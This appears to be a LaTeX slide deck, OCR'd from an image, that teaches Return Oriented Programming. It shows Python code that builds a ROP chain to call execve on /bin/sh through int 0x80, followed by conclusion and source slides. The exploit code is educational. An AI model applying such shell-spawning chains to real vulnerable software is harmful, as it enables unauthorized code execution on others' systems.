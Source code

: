 \documentclass[11pt]{beamer}
\begin{document}
\begin{frame}[fragile]
    \frametitle{Generating the payload, init params}
    \begin{lstlisting}[style=code, language=python]
p += pack('<I', pop_edx) # address of .data + 8 into edx
p += pack('<I', data + 8)
p += pack('<I', xor_eax_eax) # clear eax
p += pack('<I', mov_edx_eax) # write null after /bin/sh
p += pack('<I', pop_ebx) # write address of program name to ebx
p += pack('<I', data)
p += pack('<I', pop_ecx) # write arguments into ecx
p += pack('<I', data + 8)
p += pack('<I', pop_edx) # write env into edx
p += pack('<I', data + 8)
    \end{lstlisting}
\end{frame}

\begin{frame}[fragile]
    \frametitle{Generating the payload: Init eax, call syscall}
    \begin{lstlisting}[style=code, language=python]
p += pack('<I', xor_eax_eax) # set eax to 11 (execve)
for i in range(12):
    p += pack('<I', inc_eax)
p += pack('<I', int_80) # call interrupt
print(str(p)[2:-1])
with open('payload', 'wb') as file:
    file.write(p)
    \end{lstlisting}
\end{frame}
\section{Conclusion}
\begin{frame}
    \frametitle{Conclusion}
    \begin{itemize}
        \item Return Oriented Programming is a very powerful technique
        \item It is able to execute any system call if there are enough rop gadgets
        \item There are many tools to simplify the process of finding ROP gadgets and generatating ROP payloads
        \item Modern desktops use aslr and other protection mechanisms $\rightarrow$ practically impossible to use ROP
    \end{itemize}
\end{frame}

\section*{Sources}
\begin{frame}
    \frametitle{Sources}
    \url{https://trustfoundry.net/basic-rop-techniques-and-tricks/}
    \url{http://gauss.ececs.uc.edu/Courses/c6056/pdf/rop.pdf}
    \url{https://www.proggen.org/doku.php?id=security:memory-corruption:exploitation:rop}
    \url{https://shell-storm.org/talks/ROP_course_lecture_jonathan_salwan_2014.pdf}
\end{frame}
\end{document}
